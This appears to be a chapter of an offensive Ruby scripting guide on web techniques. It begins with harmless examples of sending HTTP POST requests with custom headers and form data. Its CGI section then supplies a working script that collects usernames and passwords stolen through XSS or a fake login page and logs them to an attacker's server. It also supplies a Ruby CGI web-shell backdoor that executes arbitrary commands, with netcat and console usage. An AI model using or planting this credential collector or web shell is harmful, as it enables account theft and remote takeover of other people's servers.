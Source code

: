 # Chapter 0x4 | Web KungFu

## Send HTTP Post request with custom headers
Here the post body from a file
```ruby
require 'net/http'
require 'uri'


uri = URI.parse "http://example.com/Pages/PostPage.aspx"
headers =
{
   'Referer' => 'http://example.com/Pages/SomePage.aspx',
   'Cookie' => 'TS9e4B=ae79efe; WSS_FullScrende=false; ASP.NET_SessionId=rxuvh3l5dam',
   'Connection' => 'keep-alive',
   'Content-Type' =>'application/x-www-form-urlencoded'
 }
post = File.read post_file   # Raw Post Body's Data
http    = Net::HTTP.new(uri.host, uri.port)
request = Net::HTTP::Post.new(uri.path, headers)
request.body = post
response = http.request request
puts response.code
puts response.body
```

## More control on Post variables
Let's to take the follwoing form as a simple post form to mimic in our script

| ![PostForm](../images/module04/webfu__post_form1.png) |
|:---------------:|
| **Figure 1.** Simple Post form |

Post form code:
```html
<FORM METHOD=POST ACTION="http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi">

    <P>Name field: <INPUT TYPE="text" Name="name" SIZE=30 VALUE = "You name">
    <P>Name field: <TEXTAREA TYPE="textarea" ROWS=5 COLS=30 Name="textarea">Your comment.</TEXTAREA>

    <P>Your age: <INPUT TYPE="radio" NAME="radiobutton" VALUE="youngun"> younger than 21,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="middleun" CHECKED> 21 -59,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="oldun"> 60 or older

    <P>Things you like:
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="pizza" CHECKED>pizza,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="hamburgers" CHECKED>hamburgers,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="spinich">spinich,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="mashed potatoes" CHECKED>mashed potatoes

    <P>What you like most:
    <SELECT NAME="selectitem">
        <OPTION>pizza<OPTION>hamburgers<OPTION SELECTED>spinich<OPTION>mashed potatoes<OPTION>other
    </SELECT>

    <P>Reset: <INPUT TYPE="reset" >

    <P>Submit: <INPUT TYPE="submit" NAME="submitbutton" VALUE="Do it!" ACTION="SEND">
</FORM>

```

We need to send a Post request as the form figure 1 would do with contol on each value and variable.
```ruby
require "net/http"
require "uri"

# Parsing the URL and instantiate http
uri = URI.parse("http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi")
http = Net::HTTP.new(uri.host, uri.port)

# Instantiate HTTP Post request
request = Net::HTTP::Post.new(uri.request_uri)

# Headers
request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:37.0) Gecko/20100101 Firefox/37.0"
request["Referer"] = "http://www.cs.unc.edu/~jbs/resources/perl/perl-cgi/programs/form1-POST.html"
request["Connection"] = "keep-alive"
request["Accept-Language"] = "en-US,en;q=0.5"
request["Accept-Encoding"] = "gzip, deflate"
request["Content-Type"] = "application/x-www-form-urlencoded"

# Post body
request.set_form_data({
                          "name"         => "My title is here",
                          "textarea"     => "My grate message here.",
                          "radiobutton"  => "middleun",
                          "checkedbox"   => "pizza",
                          "checkedbox"   => "hamburgers",
                          "checkedbox"   => "mashed potatoes",
                          "selectitem"   => "hamburgers",
                          "submitbutton" => "Do it!"
                      })

# Receive the response
response = http.request(request)

puts "Status code: " + response.code
puts "Response body: " + response.body

```



## CGI
### Get info - from XSS/HTMLi exploitation
When you exploit XSS or HTML injection you may need to receive the grapped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter login with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site url
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```

### Web Shell - command execution via GET

if you have a server that supports ruby CGI, you can use the follwoing as backdoor
```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```
Now you can simply use browser, netcat or WebShellConsole[^1] to execute your commands.
ex.
**Brwoser**
```
http://host/cgi/shell.rb?cmd=ls -la
```
**Netcat**
```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
```
**WebShellConsole**

run wsc
```
ruby wsc.rb
```
Add Shell url
```
Shell -> set http://host/cgi/shell.rb?cmd=
```
Now prompt your commands
```
Shell -> ls -la
```

<br><br><br>
---
[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all url encoding too.


















